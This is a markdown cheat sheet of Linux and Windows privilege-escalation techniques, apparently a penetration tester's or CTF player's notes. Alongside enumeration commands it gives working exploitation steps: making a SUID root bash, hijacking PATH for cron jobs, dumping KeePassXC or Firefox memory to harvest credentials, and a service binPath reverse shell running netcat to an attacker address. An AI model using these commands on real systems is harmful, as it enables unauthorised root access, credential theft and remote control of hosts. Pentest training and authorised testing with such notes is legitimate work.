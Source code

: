 # Linux

## linpeas

Always run this when possible.
`/usr/share/peass/linpeas/linpeas.sh`

## Enumeration

`id` List user ID and groups.
Manually enumerate user home directories for interesting files.
`history` or `less .bash_history` etc. Check shell history.
`ls -al /` Look for signs that user is in a docker container.
`findmnt` Find mounts connected to the system.
`mount` Check for docker container or unsafe mounts.
`export -p` and `env` View/modify environment variables.
`echo $PATH` Check the path.
Relative path program exploits.
`sudo -l` List commands user can run as root.
`find / -perm -4000 2>/dev/null` Find SUID binaries.
Check `/etc/apache2` and `/etc/nginx` for `sites-available` files to enumerate.
Check `/var/www` and `/opt` for interesting files.
`git log -p > all-git-commits.txt` Inspect git commits.
Find web server, git, and other config files that may contain credentials.
Check databases for credentials.
Find SSH key files.
`crontab -l` List user crontab.
`cat /etc/crontab` List system crontab.
`ps auxww | grep root` Investigate interesting root processes.
`pspy` Spy on processes to find cron jobs.
Modify vulnerable shell scripts, config files, environment variables, etc.
`ls -al /var/mail` Check user mail.
`docker` Exploit docker containers.
`kubeletctl` Exploit Kubernetes containers.
Run LinPEAS.
`find / -type f -user username 2>/dev/null` Find interesting files owned by username.
`lsattr` Check for vulnerable file attributes.
`getcap -r / 2>/dev/null` Find tools on the system that can do network stuff.
Get OS kernel and release info with `uname -a`, `lsb_release -a`, or `cat /etc/*release`.
`ss -tlpn` Show all listening ports and processes.
`netstat -ant` Show all TCP services.
`find -perm -o=w 2>/dev/null` Find world-writable files.
## Exploitation

Possible Simple Vector via Sudo
`sudo su`

Create SUID Bash (E.g., Leverage hacked cron job or container root access to host filesystem)
```
cp /bin/bash /tmp/bash
chown root:root /tmp/bash
chmod 4755 /tmp/bash
```

Execute SUID Bash
`bash -p`

Path Variable Hijacking (e.g., for cron job binary without absolute path)
`export PATH=/tmp:$PATH`

Less (System Pager / Text Scroller) Exploitation :)
`!/path/to/program`

### rbash Breakout

Literally just spawn a different shell. Use GTFOBins if needed.

# Windows

## winPEAS

Always run this when possible.
`/usr/share/peass/winpeas/winPEAS.bat`

## Enumeration

Net User Groups
`net user username`

Whoami Groups
`whoami /groups`

Read PowerShell History
`type c:\users\username\appdata\roaming\microsoft\windows\powershell\psreadline\consolehost_history.txt`

Enumerate Services (even when sc.exe is denied permission)
`reg query "HKLM\System\CurrentControlSet\Services"`

Get Service Details (sc.exe)
`sc.exe qc servicename`

Get Service Details (registry)
`reg query "HKLM\System\CurrentControlSet\Services\servicename"`

List Processes
`get-process`

Dump Process Memory. E.g., Firefox, KeePassXC
`procdump.exe -ma pid process.dmp`

Extract Strings from Binary Files
`strings -el process.dmp`

## Exploitation

Service Binary Path Revshell
```
Users who are in the "Server Operators" group can modify, start, and stop system services.

Example of revshell via service binary path (e.g., vss service):

sc.exe config servicename binPath="c:\users\username\nc.exe -e cmd.exe ipaddress port"

nc -lvnp port

sc.exe stop servicename
sc.exe start servicename

WARNING: The above shell is unstable and will probably die after seconds.
Use meterpreter instead.
```
